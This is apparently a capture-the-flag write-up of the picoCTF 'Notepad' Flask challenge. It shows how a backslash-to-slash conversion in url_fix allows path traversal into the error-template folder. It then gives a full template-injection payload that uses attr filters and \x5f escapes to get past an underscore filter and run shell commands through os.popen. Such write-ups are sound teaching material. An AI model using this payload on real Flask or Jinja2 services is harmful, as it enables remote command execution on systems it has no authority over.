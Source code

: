 This is my first ever writeup so bare with me haha.

Notepad is a hard level PicoCTF challenge. It's relatively small at least code wise containing an app.py file that is just 22 lines of python, and here they are:

```
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    print(content)
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```


Before anything I want to know where the flag will be stored on the docker container, heres the Dockerfile:

```
# Dockerfile (fixed & pinned for lab testing)
FROM python:3.9.2-slim-buster

# Ensure deterministic output from python processes in containers
ENV PYTHONUNBUFFERED=1

WORKDIR /app

# Install specific (older) versions intentionally:
# - Flask 2.0.3 (compatible with Werkzeug 2.0.x)
# - Werkzeug 2.0.3 (contains url_fix)
# - pin gunicorn to a modern-but-known version
RUN pip install --no-cache-dir "Flask==2.0.3" "werkzeug==2.0.3" "gunicorn==20.1.0"

# Copy app + assets
COPY app.py flag.txt ./
COPY templates templates

# Make sure required dirs exist, set permissions, and rename the flag file to a random name
RUN mkdir -p /app/static /app/templates/errors && \
    chmod -R 775 /app && \
    chmod 1773 /app/static /app/templates/errors && \
    # only rename if flag.txt exists
    if [ -f flag.txt ]; then mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt; fi

# Expose a port (optional, but useful)
EXPOSE 8000

# Fix gunicorn CLI flags: use --user and --group properly and bind to port 8000
CMD ["gunicorn", "-w", "16", "-t", "5", "--graceful-timeout", "0", "--user", "nobody", "--group", "nogroup", "-b", "0.0.0.0:8000", "app:app"]

```

As you can see from 'COPY app.py flag.txt ./' the flag will just be a file in the root directory. From this I assumed this may be an LFI challenge or RCE.


Now, Diving into te code it has some interesting behaviour. The code is made to save notes into a directory static as a .html file, it also saves the file as the first 128 characters of the note along with 8 random characters in the end.
Immediately I attempted a directory traversal as the name of the file is being generated and then passed onto pythons open() function, which takes a filename that can include ../ ... interesting.

Now theres an issue, two characters are filtered out from the notes, that being forward slash '/' and underscores '_'. The underscores will make sense later.
I wanted to see if I could find a way around the filtering and so I looked up the url_fix function from werkzeug. Heres the function:

```
from werkzeug.urls import url_fix

def url_fix_source(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
    it contains unsafe characters like ' ' and so on. This function can fix
    some of the problems in a similar way browsers handle data entered by the
    user:

    >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
    'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

    :param s: the string with the URL to fix.
    :param charset: The target charset for the URL if the url was given as
                    unicode string.
    """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))

```

Something really interesting here is that url_fix converts backslashes to forwardslashes... :)

This was a clear way to bypass the forwardslash filter. 
Now, submitting a note with content '..\test' will write files to the apps main directory. I tested this in a docker file and it worked.
Something I shouldve mentioned earlier is that the app can accept error templates when the notepad exceeds 512 characters of contains bad characters.
The templates are stored in the templates directory within the apps main directory. 
Templates are passed straing into python, interestingly they can execute python code inside curly braces. At this point I was sure this was a SSTI (Server Side Template Injection).
Using the previous directory traversal vulnerability, I am able to place files in the templates/errors directory, which is exactly where python pulls errors from.
Now, to execute the SSTI vulnerability I had to supply 128 random characters to not mess up the name (not entirely sure if this was required but it's more stable).
Here was my original note I submitted as a test:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{ print ('ello?')}}

after submitting this note, the server placed a file with the name 'expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx-TYTVPd8HE3I.html' in the errors directory.
I could then access this file by passing an error parameter with the name of that file to the front page as so:

![]()

Now, I need to be able to execute system commands, I could just read files but thats boring. Using the regular SSTI oneliner does not work because of the previously mentioned underscore '_' filtering, so we have to get creative.
Using pythons 'attr' function. The only issue is we cant get by with just attr, this is because certain objects have underscores no matter what way you access it. For this we can use the byte representation of underscores in python: \x5f. 
Now, we can get to the __builtins__ object in python which houses __getitem__ which from there you can get to my beloved import function and import os.popen. With this, we have SSTI :D. Heres the full payload:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

for simplicity the SSTI payload is:
request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()

Now you can easily find a payload just like this online or an alternative but doing it myself is more fun and you learn more.
Anyways, after submitting this payload, you can just access it and run system commands, I switch out 'ls' to 'cat /flag.txt' and you can read the flag as so:

![]()

You could also run any command you'd like of course.







